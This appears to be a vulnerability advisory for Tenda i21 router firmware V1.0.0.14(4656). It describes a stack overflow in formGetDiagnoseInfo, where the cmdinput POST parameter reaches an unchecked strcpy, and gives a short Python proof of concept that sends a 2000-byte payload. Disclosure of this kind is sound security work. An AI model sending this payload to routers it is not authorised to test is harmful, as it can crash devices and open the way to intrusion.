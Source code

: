 ## Overview

- Firmware download website: https://www.tenda.com.cn/download/detail-2982.html

## Affected version

i21 V1.0.0.14(4656)

## Vulnerability details

In the i21 V1.0.0.14(4656) firmware has a stack overflow vulnerability in the `formGetDiagnoseInfo` function. The `hostname` variable receives the `cmdinput` parameter from a POST request. However, since the user can control the input of `cmdinput`, the statement `strcpy(cfg->hostname, hostname + 5);` can cause a buffer overflow. The user-provided  `cmdinput` can exceed the capacity of the `cfg->hostname` array, triggering this security vulnerability.

![image-20240419204731638](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240419204731638.png)

## POC

```python
payload = b"a"*2000

data = {"cmdinput": payload}
response = requests.post(url, data=data)
```

![image-20240419162115799](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240419162115799.png)
